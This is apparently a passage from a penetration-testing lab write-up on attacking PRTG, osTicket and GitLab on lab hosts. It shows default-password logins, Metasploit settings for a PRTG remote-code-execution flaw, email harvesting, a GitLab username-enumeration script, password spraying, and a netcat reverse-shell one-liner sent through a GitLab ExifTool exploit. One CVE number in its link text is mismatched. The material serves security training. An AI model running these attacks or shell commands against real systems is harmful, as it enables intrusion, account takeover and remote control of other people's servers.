Authentication with the default credentials failed. However, after testing common weak passwords, administrative access was obtained using:

```
prtgadmin:Password123
```



Once administrative access is confirmed, known vulnerabilities can be leveraged. Searching `Metasploit` reveals several PRTG-related modules:

```
msfconsole
search prtg
```


```
info 3
```

Module 3 is particularly relevant. It targets [CVE-2018-9275](https://nvd.nist.gov/vuln/detail/CVE-2018-9276), an authenticated remote code execution vulnerability affecting PRTG versions prior to `18.2.39`. The target is running version `18.1.37.13946`, which is vulnerable.

This vulnerability allows an authenticated administrator to execute arbitrary commands on the PRTG server, typically running with `SYSTEM` privileges on Windows.

Configure the exploit as follows:

```
set ADMIN_PASSWORD Password123
set RHOSTS 10.129.74.252
set RPORT 8080
set LHOST 10.10.15.4
exploit
```



The exploit succeeds, yielding a reverse shell on the target system:



---

## Customer Service Management and Configuration Management

### osTicket

osTicket is an open-source support ticketing system written in PHP, typically backed by a MySQL database. It can be deployed on both Linux and Windows platforms and is commonly used as a customer-facing support portal.

osTicket exposes relatively few direct, publicly exploitable vulnerabilities. In many environments, its primary value during a penetration test is **information gathering and lateral pivoting**, rather than immediate remote code execution.

osTicket can often be identified visually via the footer of the web interface, which includes the osTicket logo and the phrase `powered by osTicket`:


Another reliable identification method is inspecting HTTP cookies. osTicket uses a distinctive session cookie named `OSTSESSID`:

```
Cookie: OSTSESSID=l1bfgck9dvgd474t4ij53b3uee
```



osTicket enforces role separation by design:

- End users
  - Can submit and view their own tickets
- Staff / Administrators
  - Have access to the admin panel and backend configuration

The administrative interface is not publicly accessible without valid credentials, and osTicket is generally well maintained, resulting in a limited number of exploitable vulnerabilities in modern versions.

Although osTicket may not directly lead to remote code execution, it can still be valuable from an attacker’s perspective.

If ticket submission is enabled, attackers can often:

- Interact with the support workflow
- Observe automated responses
- Harvest internal email addresses tied to the organization’s domain



In this case, creating a new support ticket resulted in an automated response revealing a valid internal email address:

```
If you want to add more information to your ticket, just email 971708@inlanefreight.local.
```



Discovered email addresses can be leveraged in subsequent attack paths, such as:

Registering accounts on:

- Internal wikis
- Chat platforms (Slack, Mattermost, Rocket.Chat)
- Git repositories (GitLab, Bitbucket)
- Password reset abuse
- Phishing or social engineering
- Username enumeration on other exposed services

Support portals are frequently **overlooked assets** and often leak valuable organizational metadata.

---

### Gitlab - Discovery & Enumeration

GitLab is a web-based Git repository management platform that provides source control, issue tracking, wiki functionality, and CI/CD pipeline automation. It is functionally similar to **GitHub and Bitbucket** and is frequently deployed as a **self-hosted service** within enterprise environments.

During penetration tests, Git repositories often contain high-value data, including:

- Source code
- API interaction scripts
- Infrastructure configuration files
- Accidentally committed credentials, tokens, or SSH keys

GitLab supports three repository visibility levels:

- Public — accessible without authentication
- Internal — accessible to authenticated users
- Private — restricted to specific users or groups

Identifying a GitLab instance is trivial. Browsing to the target URL typically presents the GitLab login page and logo:


Unlike some other web applications, GitLab does **not** expose its version number publicly. The version can only be confirmed by accessing the `/help` endpoint **after authentication**.

If the GitLab instance allows self-registration, we can create an account and use it to fingerprint the version.

In this case, account registration is enabled:

```
http://gitlab.inlanefreight.local:8081/users/sign_up
```

After logging in, visiting the `/help` page reveals the GitLab version:

```
http://gitlab.inlanefreight.local:8081/help
```

The instance is running GitLab version `13.10.2`.


Without elevated privileges, the most valuable initial enumeration step is browsing public projects via the `/explore` endpoint:

```
http://gitlab.inlanefreight.local:8081/explore/
```

A public project named `Inlanefreight Dev` is discovered.


Public repositories frequently contain:

- Development or test code
- Legacy configuration files
- Hard-coded credentials accidentally committed during development

Although the `Inlanefreight Dev` project appears to be a basic example repository:


Further inspection reveals hard-coded database credentials inside the `phpunit_pgsql.xml` configuration file:

```xml
<var name="db_username" value="postgres"/>
<var name="db_password" value="postgres"/>
```


These credentials may be reused elsewhere in the environment and can often be leveraged to:

- Access backend databases
- Authenticate to other services
- Escalate privileges through lateral movement

Previously we created an account through:

```
http://gitlab.inlanefreight.local:8081/users/sign_up
```

GitLab’s registration form can also be abused for **username enumeration**. When attempting to register with an existing username, GitLab returns a distinct error message:

```
Username is already taken.
```


This behavior can be used to enumerate valid user accounts, which may later be targeted through:

- Password spraying
- Credential stuffing
- Phishing
- Password reset abuse

---

### Attacking Gitlab

GitLab exposes multiple attack paths that commonly revolve around **username enumeration**, **weak authentication**, and **version-specific vulnerabilities**. Since GitLab allows user enumeration by default, the first step is identifying valid accounts before attempting authentication attacks.

GitLab exposes user profile pages at predictable paths:

```
/<username>
```

When requesting these paths, GitLab returns different HTTP status codes depending on whether the user exists. This behavior can be leveraged for **unauthenticated username enumeration**.

The following Python script enumerates valid usernames by sending `HEAD` requests to potential profile URLs:

```python
#!/usr/bin/env python3

import requests
import argparse

def main():
    parser = argparse.ArgumentParser(description='GitLab User Enumeration')
    parser.add_argument('--url', '-u', type=str, required=True, help='The URL of the GitLab\'s instance')
    parser.add_argument('--wordlist', '-w', type=str, required=True, help='Path to the username wordlist')
    parser.add_argument('-v', action='store_true', help='Enable verbose mode')
    args = parser.parse_args()

    print('GitLab User Enumeration in python')

    with open(args.wordlist, 'r') as f:
        for line in f:
            username = line.strip()
            if args.v:
                print(f'Trying username {line[:-1]}...')
            http_code = requests.head(f'{args.url}/{username}').status_code
            if http_code == 200:
                print(f'[+] The username {username} exists!')
            elif http_code == 0:
                print('[!] The target is unreachable.')
                break

if __name__ == '__main__':
    main()
```

Run the script using a common username wordlist:

```bash
python3 user-enum.py --url http://gitlab.inlanefreight.local:8081/ -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

We discover two valid usernames:

- `bob`
- `root`


GitLab implements account lockout protections. In versions `16.6` and earlier, accounts are locked for 10 minutes after 10 failed login attempts by default. From version `16.6` onward, administrators can customize lockout thresholds via the admin UI.

To avoid triggering lockouts, a **controlled password spraying** approach is used with common weak passwords:

- `Password123`
- `Welcome1`

This results in successful authentication:

```
bob:Welcome1
```



Earlier enumeration confirmed that the target is running **GitLab Community Edition** `13.10.2`. GitLab versions `13.10.2` and earlier are vulnerable to an authenticated remote code execution vulnerability related to unsafe handling of image metadata by `ExifTool`.

This vulnerability allows an authenticated user to upload a specially crafted image that results in arbitrary command execution. Keep in mind, that this is an authenticated vulnerability. Valid credentials are required, which can be obtained via:

- Weak passwords
- OSINT
- Password spraying
- Self-registration (if enabled)

The following exploit from **Exploit-DB** can be used:

```
https://www.exploit-db.com/exploits/49951
```

Using the exploit to trigger a reverse shell:

```bash
python3 gitlab-rce.py -t http://gitlab.inlanefreight.local:8081 -u bob -p Welcome1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.120 1337 >/tmp/f '
```

A listener is started on the attacker machine:

```bash
nc -lvnp 1337
```

The exploit successfully executes and results in a reverse shell on the GitLab host:


---

## Common Gateway Interfaces

---

### Attacking Tomcat CGI
